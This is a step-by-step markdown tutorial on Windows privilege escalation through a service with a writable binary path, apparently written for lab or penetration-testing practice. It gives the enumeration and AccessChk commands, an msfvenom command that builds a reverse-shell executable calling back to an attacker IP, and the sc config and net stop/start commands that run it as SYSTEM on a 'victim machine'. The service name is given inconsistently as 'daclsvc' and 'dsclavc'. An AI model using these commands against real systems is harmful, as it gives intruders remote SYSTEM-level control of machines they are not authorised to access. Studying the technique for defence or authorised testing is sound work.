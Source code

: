 
Some Windows services allow users to change their executable path (BinPath). If you can modify this path, you can replace the service with a malicious executable (like a reverse shell). When the service restarts, it runs your payload with high privileges (often SYSTEM).
### **1. Find Vulnerable Services**

Run **WinPEAS** or **PowerUp.ps1** to find services with weak permissions:
<img width="1124" height="95" alt="image" src="https://github.com/user-attachments/assets/df1185df-d5f6-4c91-938c-ffbd916b36a8" />
OR
<img width="962" height="71" alt="image" src="https://github.com/user-attachments/assets/4adb4cc2-0f89-42dd-8cd4-d013c2b6c810" />

Look for services with:

✔ **SERVICE_CHANGE_CONFIG** permission

✔ **Writable BinPath**

*(Example: Suppose `daclsvc`  is vulnerable here.)*

### **2. Check Permissions**

Use **AccessChk** to confirm you can modify the service:

```bash
.\accesschk.exe /accepteula -uwcqv user dsclavc
```

<img width="973" height="263" alt="image" src="https://github.com/user-attachments/assets/0db2af6e-3309-4b0c-8402-bfe547b5d526" />

✅ **You need these permissions:**

- **`SERVICE_CHANGE_CONFIG`** (to modify the service)
- **`SERVICE_START/STOP`** (to restart it)

*(If missing, try another service!)*

### **3. Check Service Details (Optional)**

```
sc qc dsclavc        # Check executable path & privileges
sc query dsclavc     # Check if service is running
```

🔹 **If it runs as `LocalSystem` → Perfect!**

Here you can see the `SERVICE_START_NAME` is LocalSystem it means the service runs with **very high privileges** and the `BINARY_PATH_NAME`  which you are going to modify

<img width="1241" height="482" alt="image" src="https://github.com/user-attachments/assets/ca6be8b8-a465-48ca-9b63-0ab47ac25b86" />

### **4. Generate a Reverse Shell**

On your Kali machine:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o evil.exe
```

Upload **`evil.exe`** to the victim machine.

### **5. Change the Service BinPath**

```
sc config dsclavc binpath= "C:\Temp\evil.exe"
```

*(Replace **`C:\Temp\evil.exe`** with your payload path.)*

### **6. Restart the Service**

```
net stop dsclavc
net start dsclavc
```

🎉 **If successful, you get a reverse shell with SYSTEM privileges!**